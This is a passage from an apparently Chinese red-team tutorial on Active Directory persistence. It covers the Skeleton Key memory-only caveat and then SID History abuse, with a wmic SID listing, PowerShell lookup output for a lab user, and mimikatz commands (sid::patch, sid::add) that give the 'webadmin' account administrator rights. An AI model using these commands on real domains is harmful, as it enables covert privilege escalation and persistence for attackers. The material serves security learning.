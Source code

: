 ![截图](496f98c22b588b69961dc36aec0cfdca.png)

> 技术总结：
因为Skeleton Key技术是被注入到lsass.exe进程的，
所以它只存在内存中，如域控重启，万能密码将失效。
>{: .prompt-tip}

## 0x04 基于用户属性修改-SID history

SID即安全标识符（Security Identifiers），是标识用户、组和计算机帐户的唯一的号码。（类似于Linux中的UID值。）

在Windows中，每个用户都有自己的SID，SID的作用主要是跟踪安全主体控制用户连接资源时的访问权限。而我们本次要利用到的`SID History`是在域迁移过程中需要使用的一个属性。

如果将A域中的域用户迁移到B域中，那么在B域中该用户的SID会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。SID History的作用是在域迁移过程中保持域用户的访问权限，即如果迁移后用户的SID改变了，系统会将其原来的SID添加到迁移后用户的SID History属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。因此，我们就可以利用此进行权限维持！

#### 利用

首先，我们查看一下域内所有主机的SID值：

```cmd
wmic useraccount get sid,name
```

![截图](ca2a59cbcb9e3a37d1c0fc237beecce5.png)

> 这里我们也可以看出来其实也和Linux的uid类似，即，小于1000的是比较关键的用户权限值。
> 
> {: .prompt-tip}

然后，我们来获取某个用户具体的一些SID属性：(powershell)

```powershell
Import-Module ActiveDirectory
Get-ADUser webadmin -Properties sidhistory
```

```text
DistinguishedName : CN=webadmin,CN=Users,DC=god,DC=org
Enabled           : True
GivenName         :
Name              : webadmin
ObjectClass       : user
ObjectGUID        : b820dcf2-5585-4c63-8444-f3cae2c4cadc
SamAccountName    : webadmin
SID               : S-1-5-21-1218902331-2157346161-1782232778-1132
SIDHistory        : {}
Surname           : webadmin
UserPrincipalName : webadmin@god.org
```
{: file='webadmin的SID属性'}
接着，我们==给予webadmin用户administrator属性：==

```shell
privilege::debug
sid::patch
sid::add /sam:webadmin /new:administrator
```
